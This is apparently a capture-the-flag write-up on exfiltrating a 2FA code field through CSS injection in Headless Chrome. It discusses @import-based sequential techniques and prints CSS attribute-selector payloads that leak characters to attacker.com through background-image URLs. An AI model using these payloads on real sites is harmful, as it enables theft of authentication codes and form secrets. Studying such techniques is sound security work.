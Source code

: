Given that we only have a single injection point, I assumed the task would be to exfiltrate `challenge_answer ` characters recursively. I was well aware of the relatively-recent technique for sequential exfiltration using `@import` directives, which you can read about in a brilliant blog post titled [Better Exfiltration via HTML Injection](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b) by [@d0nutptr](https://twitter.com/d0nutptr). Worth mentioning that a similar technique was [first discovered](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf) half a year before by [Vila](https://twitter.com/cgvwzq). Note that this technique works in Chrome because Chrome processes `@import` directives asynchronously (executing the rest of CSS code while additional resources load). This, for instance, is not the case for Firefox that executes them sequentially, as was demonstrated by [Michał Bentkowski](https://twitter.com/securitymb) in another excellent blog post on this subject, titled [CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/).

So the fact that page was loaded in Headless Chrome reaffirmed my intuition that we're after sequential exfiltration using `@import` directives. d0nutptr actually wrote a [sic](https://github.com/d0nutptr/sic) tool available on GitHub that could be used to execute such an attack, but I wanted to try this for myself so I wrote the necessary exploit in Python..... only to realise that it's not actually possible. As I have realized, Chrome only loads `@import` resources asynchronously when they appear within `<style>` elements in HTML. When they appear in the external stylesheets using `<link>` tag, however, Chrome stops CSS evaluation until the resource is loaded. It means that in our case sequential exfiltration isn't actually possible.

For a moment I even doubted whether this is about CSS exfiltration, so I even checked whether we could get XSS by injecting quotes into `app_style`to escape the attribute value... but it was secure.

So we're back to the CSS exfiltration. Ok, since the sequential technique won't work, let's just try to at least get the first character, for a start. To get that, all we need is a same-old trick of a selector matching a certain input name/value. First I tried adding this to my stylesheet:

```css
input[name=challenge_answer]{
    background-image: url(https://attacker.com/);
}
```
and didn't get any hit. Ok, the input name must be different then - let's widen that by just matching on a single character:
```css
input[name^=c]{
    background-image: url(https://attacker.com/);
}
```
That gives a hit, so we're on the right track. But if the name is not `challenge_answer` but starts with `c`, what could that be? Re-reading the message again I realised that the name is likely to be `code`:  `We have sent the payment challenge to your 2FA, you have 2 minutes to enter the code, please enter it below`.

When I tried an exact match on `code`, I didn't get any hit though:
```css
input[name=code]{
    background-image: url(https://attacker.com/);
}
```
So the name must be starting with the code then. At  this point I added a match on the first character of the value to see if I get anything back, and to my surprise I got 7 hits!
```css
input[name^=code][value^=a]{
    background-image: url(https://attacker.com/exfil/a);
}
input[name^=code][value^=b]{
    background-image: url(https://attacker.com/exfil/b);
}
...
```
(I've used all ASCII letters, both uppercase and lowercase, and digits).
